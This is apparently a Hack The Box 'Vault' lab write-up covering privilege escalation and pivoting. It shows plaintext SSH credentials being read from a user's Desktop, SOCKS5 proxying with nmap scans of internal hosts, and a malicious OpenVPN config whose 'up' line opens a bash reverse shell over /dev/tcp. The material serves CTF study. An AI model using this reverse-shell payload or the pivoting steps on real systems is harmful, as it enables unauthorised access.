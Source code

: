 # 15 - PrivEsc

# Home Folder
```
www-data@ubuntu:/home$ find . -type f 2>/dev/null
./alex/.profile
./alex/.dmrc
./alex/examples.desktop
./alex/Downloads/server.iso
./alex/.xsession-errors
./alex/Desktop/.root.txt.swp
./alex/.bash_history
./alex/.xsession-errors.old
./alex/.Xauthority
./alex/.bashrc
./alex/.sudo_as_admin_successful
./alex/.bash_logout
./alex/.ICEauthority
./dave/.profile
./dave/.dmrc
./dave/examples.desktop
./dave/.xsession-errors
./dave/Desktop/ssh
./dave/Desktop/key
./dave/Desktop/Servers
./dave/.bash_history
./dave/.xsession-errors.old
./dave/.Xauthority
./dave/.bashrc
./dave/.bash_logout
./dave/.root.txt.swp
./dave/.ICEauthority
```

# Dave's password
```
www-data@ubuntu:/home$ cat ./dave/Desktop/ssh
dave
Dav3therav3123
```


# SSH
```
┌─[user@parrot]─[10.10.14.18]─[~/htb/vault]
└──╼ $ ssh -l dave 10.10.10.109
The authenticity of host '10.10.10.109 (10.10.10.109)' can't be established.
ECDSA key fingerprint is SHA256:w4kateZsSozxs2REnC6QaP2oADamX33bSckexGsinVc.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.109' (ECDSA) to the list of known hosts.

dave@10.10.10.109's password: 
Welcome to Ubuntu 16.04.4 LTS (GNU/Linux 4.13.0-45-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

222 packages can be updated.
47 updates are security updates.

Last login: Sun Sep  2 07:17:32 2018 from 192.168.1.11
dave@ubuntu:~$ id
uid=1001(dave) gid=1001(dave) groups=1001(dave)
```



# Files in Desktop

```bash
dave@ubuntu:~/Desktop$ cat key
itscominghome
dave@ubuntu:~/Desktop$ cat Servers 
DNS + Configurator - 192.168.122.4
Firewall - 192.168.122.5
The Vault - x
dave@ubuntu:~/Desktop$ cat ssh 
dave
Dav3therav3123
```
 
* 192.168.122.4
* 192.168.122.5

We can try to enumerate these ip addresses though socks5 proxy 


# Socks5 proxy
```bash
┌─[user@parrot]─[10.10.14.18]─[~/htb/vault]
└──╼ $ ssh -D 1080 -l dave 10.10.10.109
```

# /etc/proxychains
```
[ProxyList]
# add proxy here ...
socks5 127.0.0.1 1080
```

# Nmap through proxychains
```
# Nmap 7.91 scan initiated Thu Jul 15 14:28:54 2021 as: nmap -sC -sV -p 631,5900,5901,5902 -o nmap/socks5.log 127.0.0.1
Nmap scan report for localhost (127.0.0.1)
Host is up (0.093s latency).

PORT     STATE SERVICE VERSION
631/tcp  open  ipp     CUPS 2.1
| http-methods: 
|_  Potentially risky methods: PUT
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: CUPS/2.1 IPP/2.1
|_http-title: Home - CUPS 2.1.3
5900/tcp open  spice   (SPICE 2.2)
5901/tcp open  spice   (SPICE 2.2)
5902/tcp open  spice   (SPICE 2.2)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Jul 15 14:30:04 2021 -- 1 IP address (1 host up) scanned in 69.50 seconds
```


# Nmap on 192.168.122.4
```
# Nmap 7.91 scan initiated Thu Jul 15 14:40:57 2021 as: nmap -v -oA nmap/192-168-122-4.log 192.168.122.4
Nmap scan report for 192.168.122.4
Host is up (0.067s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Read data files from: /usr/bin/../share/nmap
# Nmap done at Thu Jul 15 14:42:05 2021 -- 1 IP address (1 host up) scanned in 68.22 seconds
```



# vpnconfig.php

![](vx_images/426839628922.png)

In order to access this site socks5 proxy needs to be enabled in the browser.


It probably creates an ovpn file and executes it. According to this [article](https://medium.com/tenable-techblog/reverse-shell-from-an-openvpn-configuration-file-73fd8b1d38da), code execution is possible in ovpn files. 


![](vx_images/5500952871546.png)

```bash
remote 192.168.122.1
dev tun
nobind
script-security 2
up "/bin/bash -c '/bin/bash -i > /dev/tcp/192.168.122.1/9001 0<&1 2>&1&'"
```

# Port forwarding
```
dave@ubuntu:~$
dave@ubuntu:~$
ssh> R:9001:127.0.0.1:9001
```

Forward 9001 to the attacker so that attacker gets the shell, it's more convenient rather than having dave receive the reverse shell.

# Shell

![](vx_images/3264668641865.png)




